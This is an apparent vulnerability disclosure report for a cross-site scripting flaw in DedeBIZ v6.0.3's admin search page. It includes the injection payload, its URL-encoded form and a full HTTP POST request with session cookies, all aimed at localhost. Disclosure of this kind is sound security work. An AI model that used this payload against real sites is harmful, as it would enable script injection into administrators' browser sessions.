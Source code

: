 
> [Suggested description]
> DedeBIZ v6.0.3 was discovered to contain a cross-site scripting (XSS)
> vulnerability.
>
> ------------------------------------------
>
> [Vulnerability Type]
> Cross Site Scripting (XSS)
>
> ------------------------------------------
>
> [Vendor of Product]
> https://github.com/DedeBIZ/DedeV6
>
> ------------------------------------------
>
> [Affected Product Code Base]
> DedeBIZ - DedeBIZ V6.0.3
>
> ------------------------------------------
>
> [Affected Component]   
Enter payload in the search box   
payload：<body onwheel=alert(1)>   
keyword=%3Cbody+onwheel%3Dalert%281%29%3E
[![piWToon.png](https://z1.ax1x.com/2023/12/12/piWToon.png)](https://imgse.com/i/piWToon)

> POST /DedeV6-6.0.3/DedeV6-6.0.3/src/dede/action_search.php HTTP/1.1
> Host: localhost
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,
>
> ------------------------------------------
>
> [Attack Vectors]   
>POST /DedeV6-6.0.3/DedeV6-6.0.3/src/dede/action_search.php HTTP/1.1   
>Host: 127.0.0.1   
>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0   
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8   
>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2   
>Accept-Encoding: gzip, deflate   
>Content-Type: application/x-www-form-urlencoded   
>Content-Length: 41   
>Origin: http://127.0.0.1   
>Connection: close   
>Referer: http://127.0.0.1/DedeV6-6.0.3/DedeV6-6.0.3/src/dede/index.php   
>Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=u41j1i4kr5s3tgv179gbmquhq0; DedeUserID=1; DedeUserID__ckMd5=3f656725886a2b1d; DedeLoginTime=1702365620; DedeLoginTime__ckMd5=bc65d14495393115;  
 >dede_csrf_token=93ecc1e29effe034bebd1565ce299c3f; dede_csrf_token__ckMd5=9e7e7db1731d38ac; ENV_GOBACK_URL=%2FDedeV6-6.0.3%2FDedeV6-6.0.3%2Fsrc%2Fdede%2Fcontent_list.php%3Farcrank%3D-1   
>Upgrade-Insecure-Requests: 1   
>Sec-Fetch-Dest: iframe   
>Sec-Fetch-Mode: navigate   
>Sec-Fetch-Site: same-origin   
>Sec-Fetch-User: ?1
> 
>keyword=%3Cbody+onwheel%3Dalert%281%29%3E
> 
>Slide the mouse wheel
[![piW7kQO.png](https://z1.ax1x.com/2023/12/12/piW7kQO.png)](https://imgse.com/i/piW7kQO)
> ------------------------------------------
>
> [Reference]
> http://dedebiz.com
> https://github.com/DedeBIZ/DedeV6

Use CVE-2023-31546.
